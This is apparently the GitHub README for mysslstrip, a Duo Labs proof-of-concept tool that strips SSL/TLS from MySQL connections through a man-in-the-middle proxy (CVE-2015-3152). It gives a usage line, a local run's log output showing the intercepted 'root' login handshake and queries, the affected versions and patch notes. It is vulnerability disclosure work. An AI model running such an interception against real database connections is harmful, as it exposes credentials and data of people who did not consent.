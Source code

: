 # mysslstrip

mysslstrip is a Python-based proof of concept showing how to MITM
MySQL traffic and strip SSL/TLS, as per [CVE-2015-3152](http://www.openwall.com/lists/oss-security/2015/04/29/4).

## Usage

`mysslstrip.py [-h] [-p LISTEN_PORT] [-i LISTEN_INTERFACE] dest`

## Example Output

```
[root@duo1 ~]# python2.7 mysslstrip.py -p 3307 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] Log opened.
2015-04-29 21:33:14+0000 [-] listen: 127.0.0.1:3307; connect: 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] MySQLForwardServerFactory starting on 3307
2015-04-29 21:33:14+0000 [-] Starting factory <__main__.MySQLForwardServerFactory instance at 0x7f7769912fc8>
2015-04-29 21:33:21+0000 [__main__.MySQLForwardServerFactory] Starting factory <twisted.internet.endpoints.OneShotFactory instance at 0x7f776787c248>
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: 'J\x00\x00\x00\n5.6.21\x00\x04\x00\x00\x00"l{I8{%D\x00\xff\xff\x08\x02\x00\x7f\xc0\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00fSPsur[Rg/S6\x00mysql_native_password\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\xb6\x00\x00\x01\x85\xa6\x7f@\x00\x00\x00\x01!\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00root\x00\x14U\xe7\x0b\x0cs\xb5\xf3\x00\x07&=\xa8\xa6\xf9I\xf0\x86}G\xffmysql_native_password\x00e\x03_os\x05Linux\x0c_client_name\x08libmysql\x04_pid\x042361\x0f_client_version\x065.6.21\t_platform\x06x86_64\x0cprogram_name\x05mysql'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x07\x00\x00\x03\x00\x00\x00\x02\x00\x00\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '!\x00\x00\x00\x03select @@version_comment limit 1'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: "\x01\x00\x00\x01\x01'\x00\x00\x02\x03def\x00\x00\x00\x11@@version_comment\x00\x0c!\x00x\x00\x00\x00\xfd\x00\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00)\x00\x00\x04(Distributed by The IUS Community Project\x05\x00\x00\x05\xfe\x00\x00\x02\x00"
2015-04-29 21:33:27+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x16\x00\x00\x00\x03SELECT "HELLO, WORLD"'
2015-04-29 21:33:27+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x01\x00\x00\x01\x01"\x00\x00\x02\x03def\x00\x00\x00\x0cHELLO, WORLD\x00\x0c!\x00$\x00\x00\x00\xfd\x01\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00\r\x00\x00\x04\x0cHELLO, WORLD\x05\x00\x00\x05\xfe\x00\x00\x02\x00'
2015-04-29 21:33:33+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x01\x00\x00\x00\x01'
```

## Additional Information


**Is this a real vulnerability?**

Yes! Encrypt all the things. Allowing opportunistic degradation of encryption is pretty poor practice.

The vulnerability affects MySQL 5.7.2 and earlier versions, along with MySQL Connector versions 6.1.2 and earlier, all versions of Percona Server and all versions of MariaDB.

**Patch?**

It's been fixed in [MySQL 5.7.3](http://dev.mysql.com/doc/relnotes/mysql/5.7/en/news-5-7-3.html) ... but the security
patch hasn't been backported to any other version, so if you're on 5.6 like 99.99% of the Internet is, you're out of
luck unless you switch to the 5.7 "preview release".

Created by [Adam Goodman](https://twitter.com/akgood) of [Duo Labs](https://labs.duosecurity.com).

**Inquiries?**

PR Inquiries: [this.is.a.really.big.deal@duosecurity.com](mailto:this.is.a.really.big.deal@duosecurity.com)  
Technical Inquiries: [this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com](mailto:this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com)  
Twitters: [@duo\_labs](https://twitter.com/duo_labs)

### References

[https://www.duosecurity.com/blog/backronym-mysql-vulnerability](https://www.duosecurity.com/blog/backronym-mysql-vulnerability)  
[http://www.openwall.com/lists/oss-security/2015/04/29/4](http://www.openwall.com/lists/oss-security/2015/04/29/4)  
[http://www.ocert.org/advisories/ocert-2015-003.html](http://www.ocert.org/advisories/ocert-2015-003.html)  
[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152)
